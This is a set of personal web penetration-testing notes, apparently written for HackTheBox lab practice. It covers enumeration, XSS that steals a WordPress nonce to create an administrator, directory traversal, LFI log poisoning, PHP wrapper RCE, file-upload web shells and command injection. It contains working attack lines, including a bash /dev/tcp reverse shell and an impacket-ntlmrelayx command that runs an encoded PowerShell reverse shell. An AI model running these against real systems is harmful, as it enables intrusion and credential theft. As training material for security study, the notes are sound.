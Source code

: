 <p><a href="https://academy.hackthebox.com/module/113/section/1087">HackTheBox - Attacking Common Applications</a>
<a href="https://academy.hackthebox.com/module/116/section/1140">HackTheBox - Attacking Common Services</a></p>
<h3 id="enumeration">Enumeration</h3>
<ul>
<li>Install Wappalyzer when doing boxes/taking test</li>
<li><code>gobuster</code><ul>
<li>Very noisy! Enumerates dirs/files</li>
<li>Usage: <code>gobuster dir -u {IP} -w /usr/share/wordlists/dirb/common.txt -t {threads}</code></li>
<li>Make sure it checks for .git<ul>
<li><a href="https://github.com/arthaud/git-dumper">https://github.com/arthaud/git-dumper</a> to dump the info</li>
<li><a href="https://medium.com/swlh/hacking-git-directories-e0e60fa79a36">https://medium.com/swlh/hacking-git-directories-e0e60fa79a36</a></li>
</ul>
</li>
</ul>
</li>
<li>Check robots.txt</li>
<li>Check for APIs with /FUZZ/v1 or /FUZZ/v2</li>
<li>Fuzz default IIS servers!!! They can have stuff</li>
<li><code>whatweb</code> is like a local wappalyzer on kali<ul>
<li><code>whatweb http://{IP}</code></li>
</ul>
</li>
</ul>
<h3 id="exploitation">Exploitation</h3>
<ul>
<li>HTTP Headers:<ul>
<li><code>HTTP User-Agent</code> can sometimes be displayed in logging pages, so modifying it could XSS or SQLi some sites</li>
<li><code>Server</code> response can reveal info about server</li>
</ul>
</li>
<li>I guess try adding <code>{&quot;admin&quot;:&quot;True&quot;}</code>  (or equivalent) against registration APIs? </li>
<li>If HttpOnly flag isn&#39;t on Auth cookies, we can steal them w/ XSS</li>
</ul>
<h3 id="xss-exploitation-example">XSS Exploitation Example</h3>
<ul>
<li>Grabbing a nonce value from /wp-admin/user-new.php<ul>
<li>var ajaxRequest = new XMLHttpRequest(); </li>
<li>var requestURL = &quot;/wp-admin/user-new.php&quot;; </li>
<li>var nonceRegex = /ser&quot; value=&quot;([^&quot;]*?)&quot;/g; </li>
<li>ajaxRequest.open(&quot;GET&quot;, requestURL, false); </li>
<li>ajaxRequest.send(); </li>
<li>var nonceMatch = nonceRegex.exec(ajaxRequest.responseText); </li>
<li>var nonce = nonceMatch[1];</li>
</ul>
</li>
<li>Then, use that <code>nonce</code> variable with /wp-admin/user-new.php to create a new administrator</li>
</ul>
<h3 id="directory-traversal">Directory Traversal</h3>
<ul>
<li>Test Windows traversal with <code>C:\Windows\System32\drivers\etc\hosts</code> (if win.ini not working)</li>
<li>DT to system access on Windows:<ul>
<li>Look in home directories for <code>.ssh</code></li>
<li>IIS server: <ul>
<li><code>C:\inetpub\logs\LogFiles\W3SVC1\</code> is logs</li>
<li><code>C:\inetpub\wwwroot\web.config</code> - config w/ potential creds</li>
</ul>
</li>
</ul>
</li>
<li><code>%2f</code> for <code>/</code> and <code>%2e</code> for <code>.</code> </li>
<li>Also, if we can pass IPs, use for stealing NTLM hash<ul>
<li><code>sudo impacket-ntlmrelayx --no-http-server -smb2support -t {relay_target_IP} -c &quot;powershell -enc {reverse_shell}&quot;</code></li>
</ul>
</li>
</ul>
<h3 id="file-inclusion">File Inclusion</h3>
<ul>
<li>Different from directory traversal - directory traversal refers to simply retrieving contents, whereas LFI means the contents of the file are executed</li>
<li>LFI example attack path<ul>
<li>Can access local files with ?page=</li>
<li>Apache&#39;s /var/log/apache2/access.log logs the HTTP User Agent of everyone connecting</li>
<li>Thus, we can connect to a site with php code in our User Agent, poisoning the log, and view the access log with the LFI, resulting in the code executing</li>
<li>Can turn into a reverse shell with <code>bash -i &gt;&amp; /dev/tcp/{IP}/4444 0&gt;&amp;1</code><ul>
<li>If executed with Bourne Shell, we can prepend <code>bash -c</code> to ensure shell uses bash</li>
</ul>
</li>
</ul>
</li>
<li>PHP wrappers can be used to display PHP when it would have otherwise executed<ul>
<li>php://filter/convert.base64-encode/resouce=admin.php</li>
<li>data:// wrapper can be used for code execution<ul>
<li><code>data://text/plain,&lt;php echo system(&#39;ls&#39;); ?&gt;</code> in an LFI could cause RCE</li>
<li>b64 version: <code>data://text/plain;base64,</code></li>
</ul>
</li>
</ul>
</li>
<li>Remote File Inclusion - very similar, but rare - passing PHP file as an HTTP link</li>
<li>Things to include:<ul>
<li><strong>/var/www/html/backup.php</strong></li>
<li><strong>/opt/admin.bak.php</strong></li>
<li><strong>/opt/install.txt</strong> (or <strong>C:\Users\install.txt</strong>)</li>
<li><strong>/opt/passwords</strong></li>
</ul>
</li>
</ul>
<h3 id="file-upload">File Upload</h3>
<ul>
<li>SVG upload can lead to XXE</li>
<li>webshells found at /usr/share/webshells</li>
<li>On boxes, try changing filename to include <code>../</code> - could upload root ssh key</li>
</ul>
<h3 id="command-injection">Command Injection</h3>
<ul>
<li><code>dir 2&gt;&amp;1 \*\`|echo CMD);&amp;&lt;# rem #&gt;echo PowerShell</code> will check injected shell type</li>
<li>Can use powershell for creating shells</li>
</ul>
<h3 id="wordpress">Wordpress</h3>
<ul>
<li>Use <code>wpscan</code> and investigate the plugins<ul>
<li><code>wpscan --url http://{IP} --enumerate p --plugins-detection aggressive</code></li>
<li>Look for <code>[!] This version is out of date</code></li>
<li>Can use searchsploit for these plugins or the wpscan vuln database</li>
</ul>
</li>
<li>If signed into the wordpress page<ul>
<li>Check out plugins from the inside</li>
<li>Check out the Backup Migration<ul>
<li>Changing this to our IP can allow us to relay authentication (if signing is disabled)</li>
<li><code>//{kali_ip}/test</code> with <code>sudo impacket-ntlmrelayx --no-http-server -smb2support -t {relay_target_IP} -c &quot;powershell -enc {reverse_shell}&quot;</code></li>
</ul>
</li>
<li>Try to upload a shell</li>
</ul>
</li>
</ul>
